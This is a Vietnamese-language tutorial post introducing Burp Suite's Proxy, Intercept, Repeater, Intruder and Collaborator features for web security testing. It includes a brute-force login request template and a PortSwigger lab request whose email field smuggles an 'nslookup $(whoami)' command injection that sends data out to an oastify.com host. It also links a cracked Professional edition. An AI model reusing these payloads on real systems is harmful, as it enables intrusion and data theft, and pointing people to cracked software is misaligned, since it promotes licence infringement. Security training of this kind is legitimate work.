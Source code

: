 ```yaml
---
title: "Burp Suite Exploit"
description: Introduction to using Burp Suite to analyze and exploit web vulnerabilities.
date: 2025-05-06 23:01:00 +0700
categories: [Cybersecurity, Tools]
tags: [introduction, tool, web, portswigger]
pin: false
comments: true
image:
    path: /assets/img/posts/2025-05-06-burpsuite-exploit/burpsuite.png
    alt: Burp Suite
---
```


## Introduction
---
**Burp Suite** là một công cụ mạnh mẽ và phổ biến được sử dụng trong lĩnh vực kiểm thử bảo mật ứng dụng web (web application security testing). Được phát triển bởi **PortSwigger**, **Burp Suite** cung cấp một bộ công cụ tích hợp giúp các chuyên gia bảo mật có thể phân tích, kiểm soát và khai thác các lỗ hổng trong ứng dụng web một cách hiệu quả.

**Burp Suite** hoạt động như một proxy trung gian giữa trình duyệt của bạn và máy chủ web mà bạn đang truy cập. Khi bạn cấu hình trình duyệt sử dụng Burp làm proxy (thường là 127.0.0.1:8080), tất cả lưu lượng **HTTP/HTTPS** sẽ đi qua Burp trước khi đến server và ngược lại.

Với khả năng chặn và chỉnh sửa lưu lượng **HTTP/HTTPS** giữa trình duyệt và máy chủ web, **Burp Suite** cho phép bạn quan sát chi tiết cách một ứng dụng hoạt động, từ đó phát hiện các điểm yếu tiềm ẩn của ứng dụng web.

**Burp Suite** có 2 phiên bản là **Community Edition** và **Professional**, nó có sự khác biệt rõ ràng về tính năng, tốc độ, sức mạnh, đúng với câu `"Tiền nào của đấy"`.

## Installation
---
Bạn có thể thử cả 2 phiên bản để thấy được sự khác biệt của chúng.
- **Burp Suite Community Edition**: [https://portswigger.net/burp/communitydownload](https://portswigger.net/burp/communitydownload)
- **Burp Suite Professional**: [https://portswigger.net/burp/pro](https://portswigger.net/burp/pro)
- **Burp Suite Professional (Crack)**: [https://github.com/xiv3r/Burpsuite-Professional](https://github.com/xiv3r/Burpsuite-Professional)

> Nếu không có điều kiện để sử dụng bản **Professional**, bạn có thể sử dụng bản **Crack** (trên máy ảo)
{: .prompt-info }

## Usage
---
### Proxy
Phần **Proxy** là nơi Burp Suite hoạt động như một cổng trung gian (intercepting proxy) giữa trình duyệt và máy chủ web. Khi bạn bật tính năng chặn (`Intercept is on`), mọi request từ trình duyệt sẽ bị giữ lại để bạn xem xét hoặc chỉnh sửa trước khi gửi đi.

- Dùng để xem chi tiết request (headers, body, cookies...).
- Cho phép thay đổi nội dung request để kiểm tra các phản hồi khác nhau từ server.
- Giúp bạn kiểm tra cách ứng dụng xử lý dữ liệu đầu vào.
- Có thể drop request 

**Proxy** đã được thêm vào browser mặc định của **Burp Suite (chromium)**, nếu muốn linh hoạt hơn, có thể chỉnh **Proxy** trên **Burp Suite** hoặc thêm nó vào trình duyệt của bạn.
- Để tùy chỉnh **Proxy**: Settings -> Proxy -> Proxy listeners
- Thêm vào trình duyệt: sử dụng **[Foxy Proxy](https://getfoxyproxy.org/downloads/) (recommended)** hoặc **Proxy Setting** của từng trình duyệt khác nhau.

### Intercept
**Intercept** cho phép tạm dừng (giữ lại) các request và response. Click **Intercept off** để bật tính năng này.

- Khi bật Intercept, Burp sẽ giữ lại mỗi request để bạn kiểm duyệt hoặc chỉnh sửa.
- Sau khi sửa, bạn có thể chọn **Forward** để gửi đi hoặc **Drop** để chặn hẳn.

### Repeater
**Repeater** cho phép bạn *gửi lại một request nhiều lần* với các chỉnh sửa khác nhau để phân tích phản hồi từ server.

- Bạn có thể gửi request thủ công và sửa mọi thứ từ URL, headers đến body.
- Repeater hiển thị rõ ràng response của server cho từng lần gửi.
- Dùng để test logic ứng dụng, kiểm tra injection, hoặc xác định điểm bất thường trong phản hồi.

### Intruder

**Intruder** là công cụ trong Burp Suite giúp tự động gửi nhiều HTTP request với các dữ liệu khác nhau, rất hữu ích để kiểm thử lỗ hổng như brute force, fuzz tham số, hoặc thử các payload khai thác.
- **Burp Suite Community Edition**: Bị giới hạn **Resource pool (Concurrency request)**, mỗi lần chỉ thực hiện được 1 request
- **Burp Suite Professional**: Không bị giới hạn, có khả năng custom **Resource pool**.

---

#### Step Using Intruder:

1. **Gửi request đến Intruder:**
   - Từ tab Proxy hoặc Repeater, chuột phải vào một request → chọn **"Send to Intruder"**.

2. **Chọn vị trí cần tấn công:**
   - Tab **"Positions"**: Burp sẽ tự động đánh dấu các chỗ `$...$` là payload positions.
   - Bạn có thể dùng nút **"Clear"** để xóa hết, rồi **"Add"** lại những vị trí bạn muốn tùy chỉnh.

3. **Chọn kiểu tấn công (Attack Type):**
   - `Sniper`: Thay đổi từng vị trí một.
   - `Battering ram`: Một payload cho tất cả.
   - `Pitchfork`: Dùng danh sách khác nhau theo thứ tự.
   - `Cluster bomb`: Kết hợp tất cả giá trị payloads.

4. **Cấu hình dữ liệu tấn công (Payloads):**
   - Tab **"Payloads"**:
     - Chọn danh sách payloads (ví dụ: `admin`, `test`, `guest`, ...)
     - Có thể import từ file hoặc thêm thủ công.

5. **Chạy tấn công:**
   - Nhấn **"Start attack"** (hoặc Ctrl+Enter).
   - Xem kết quả trả về trong bảng để tìm response khác biệt (status code, length, content,...).


#### Example: Brute Force Login

- Endpoint: `POST /login HTTP/1.1`
- Payload position: Thay đổi giá trị username và password

```http
POST /login HTTP/1.1
Host: target.site
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=§admin§&password=§123§
```

### Burp Collaborator
**Burp Collaborator** là một dịch vụ đặc biệt được tích hợp trong Burp Suite dùng để phát hiện các lỗ hổng **out-of-band** – tức là các lỗi không trả kết quả trực tiếp trong response mà thực thi ở hệ thống backend.

---

#### How It Works
1. Burp sinh ra một **Collaborator payload** dạng domain đặc biệt (ví dụ: `abc123.burpcollaborator.net`).
2. Payload này được chèn vào các vị trí nghi ngờ trong request (header, parameter, cookie, v.v.).
3. Nếu hệ thống mục tiêu có lỗ hổng (ví dụ: SSRF), nó sẽ thực hiện truy cập đến domain của Burp.
4. Burp sẽ ghi lại kết nối đến domain đó (DNS, HTTP, SMTP...) và báo về cho bạn.

#### Types of Interactions Detected
- **DNS lookup**: Cho thấy hệ thống backend thực hiện truy vấn DNS (rất hữu ích cho SSRF).
- **HTTP request**: Backend gửi request HTTP đến payload (dùng trong Blind XSS, RFI...).
- **SMTP**: Burp Collaborator có thể phát hiện nếu hệ thống mục tiêu cố gắng gửi email đến một địa chỉ chứa payload đặc biệt. Điều này thường xảy ra khi ứng dụng có chức năng gửi email (ví dụ: xác nhận đăng ký, khôi phục mật khẩu) và địa chỉ email bị kiểm soát bởi attacker.

#### How To Use
1. Vào tab **Collaborator**.
2. Bấm **"Copy to clipboard"** để lấy payload domain.
3. Chèn domain này vào request gửi đến ứng dụng mục tiêu (thường là trong URL, header, hoặc data).
4. Nhấn **"Poll now"** để kiểm tra tương tác được gửi về Collaborator.

#### Example
```http
POST /feedback/submit HTTP/2
Host: 0ae200ac03a70a2a806f942c006e00dd.web-security-academy.net
Cookie: session=ycHcI7hP8dwQ1RNIsDxeXeFn7cXyDALS
Content-Length: 130
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Origin: https://0ae200ac03a70a2a806f942c006e00dd.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ae200ac03a70a2a806f942c006e00dd.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

csrf=dM6HXGuUvEqcYILleMSfFxFDZpqeeMlH&name=a&email=a||nslookup+$(whoami).z668wg7s5b9az0so7ldabr1ynptgh95y.oastify.com||&subject=a&message=a
```

Ở tab **Collaborator** ta nhận được: The Collaborator server received a DNS lookup of type A for the domain name peter.z668wg7s5b9az0so7ldabr1ynptgh95y.oastify.com.

---
Goodluck! 🍀🍀🍀